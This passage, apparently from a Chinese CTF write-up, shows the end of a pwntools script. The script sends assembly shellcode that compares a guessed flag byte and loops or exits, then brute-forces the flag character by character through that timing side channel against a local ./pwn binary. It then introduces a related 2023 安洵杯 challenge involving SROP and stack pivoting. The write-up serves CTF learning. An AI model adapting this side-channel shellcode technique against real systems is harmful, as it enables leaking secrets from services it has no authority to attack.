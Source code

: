 ```bash
        syscall
        mov dl, byte ptr [rsi+{}]
        mov cl, {}
        cmp cl,dl
        jz loop
        mov al,60
        syscall
        loop:
        jmp loop
        '''.format(dis,char))
    p.send(shellcode)

flag = ""

for i in range(len(flag),35):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1)
            flag += chr(j)
            p.send('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break
        except:           
            p.close()
```

## 2023 安洵杯 side\_channel ,initiate!

### 思路

这个题目同样也是侧信道爆破，不过里面涉及 srop 和栈迁移的知识  
[![](assets/1703640353-a4f099b3dde257e68236db293177ce1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191845-5e652152-a317-1.png)
